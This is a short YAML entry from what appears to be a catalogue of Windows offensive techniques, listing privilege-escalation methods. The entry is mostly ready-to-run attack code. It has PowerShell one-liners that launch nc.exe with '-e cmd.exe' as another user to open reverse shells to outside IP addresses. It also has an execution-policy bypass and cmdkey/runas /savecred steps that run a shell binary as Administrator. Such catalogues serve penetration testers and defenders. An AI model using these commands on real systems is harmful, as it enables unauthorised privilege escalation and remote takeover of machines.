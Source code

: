 ```yaml
---
functions:
  privilege-escalation:
    - description: (1) Execute a function, script, or application as another user
      code: |
        $secpasswd = ConvertTo-SecureString "aliceisnothere" -AsPlainText -Force
        $mycreds = New-Object System.Management.Automation.PSCredential ("alice", $secpasswd)
        $computer = "localhost"
        [System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.119.149 9090 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

        Oneliner:
        $secpasswd = ConvertTo-SecureString "MEGACORP_4dm1n!!" -AsPlainText -Force;$mycreds = New-Object System.Management.Automation.PSCredential ("administrator", $secpasswd);$computer = "localhost";[System.Diagnostics.Process]::Start("nc.exe","10.10.14.61 2177 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

        Run:
        powershell -c "Set-ExecutionPolicy -Scope CurrentUser bypass;./runas.ps1"

    - description: (2) Execute a function, script, or application as another user
      code: |
        cmdkey /add:authtargetname /user:username /pass:password

        cmdkey /list
        Currently stored credentials:
        Target: Domain:interactive=WORKGROUP\Administrator
        Type: Domain Password
        User: WORKGROUP\Administrator

        runas /savecred /user:Administrator shell.exe

resources: |
  https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1
---
```

